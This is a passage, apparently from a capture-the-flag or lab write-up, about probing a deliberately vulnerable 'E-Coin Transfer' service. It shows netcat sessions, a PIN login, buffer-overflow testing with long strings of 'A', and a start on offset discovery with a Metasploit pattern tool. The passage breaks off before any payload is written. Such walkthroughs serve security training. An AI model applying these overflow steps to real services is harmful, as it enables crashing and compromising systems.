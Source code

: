 ```

 [$] Transaction in progress, you can safely disconnect...

```
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AADAS
 [$] Transfering $AADAS using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe

 [$] Transaction in progress, you can safely disconnect...
```

- It looks like we can overflow the buffer, since overwrote the name of the executable
  - Note, the service will crash if we input too much `A`s, I had to reboot the server
```
└─$ nc localhost 9100     
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

 [$] Transaction in progress, you can safely disconnect...

```

- Let's find the offset
  - First create the pattern
  - Then send it to service
```
└─$ msf-pattern_create -l 50                                                                     
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
```
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
```